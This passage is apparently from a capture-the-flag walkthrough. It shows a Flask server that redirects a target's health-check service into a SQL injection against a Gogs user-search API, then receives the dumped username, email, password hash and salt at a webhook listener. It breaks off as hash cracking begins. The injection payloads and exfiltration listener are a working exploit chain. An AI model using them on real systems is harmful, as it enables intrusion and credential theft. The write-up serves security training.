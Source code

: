     app = Flask(__name__)
    
    
    @app.route("/redirect", methods=["GET"])
    def redir():
        #target = "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,sqlite_version(),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--/**/-"
        target = "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,name||':'||email||':'||passwd||':'||salt,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27/**/from/**/user--/**/-"
        return redirect(target)
    
    
    @app.route("/test", methods=["GET"])
    def test():
        return ("Hello!", 200)
    
    
    @app.route("/hook", methods=["POST"])
    def hook():
        print("Got Hook!")
        print(request.json)
        return ('', 200)
    
    
    if __name__ == "__main__":
        app.run(debug=True, host="0.0.0.0", port=80)
    

I get the following back:

    
    
    10.10.11.176 - - [06/Jan/2023 22:27:43] "GET /redirect HTTP/1.0" 302 -
    Got Hook!
    {'webhookUrl': 'http://10.10.14.6/hook', 'monitoredUrl': 'http://10.10.14.6/redirect', 'health': 'up', 'body': '{"data":[{"username":"susanne","avatar":"//1.gravatar.com/avatar/c11d48f16f254e918744183ef7b89fce"},{"username":"susanne:admin@gogs.local:66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37:sO3XIbeW14","avatar":"//1.gravatar.com/avatar/15"}],"ok":true}', 'message': 'HTTP/1.0 302 FOUND', 'headers': {'Content-Type': 'application/json; charset=UTF-8', 'Content-Length': '301', 'Location': "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,name||':'||email||':'||passwd||':'||salt,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27/**/from/**/user--/**/-", 'Server': 'Werkzeug/2.0.2 Python/3.8.10', 'Date': 'Fri, 06 Jan 2023 22:27:43 GMT', 'Set-Cookie': '_csrf=; Path=/; Max-Age=0'}}
    10.10.11.176 - - [06/Jan/2023 22:27:43] "POST /hook HTTP/1.1" 200 -
    

This includes:

  * user: susanne
  * email: admin@gogs.local
  * hash: 66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37
  * salt: sO3XIbeW14

### Crack Hash

Gogs uses a PBKDF2-HMAC-SHA256 hash, which is type 10900 on
[Hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes). The data needs
to be converted from hex to base64:
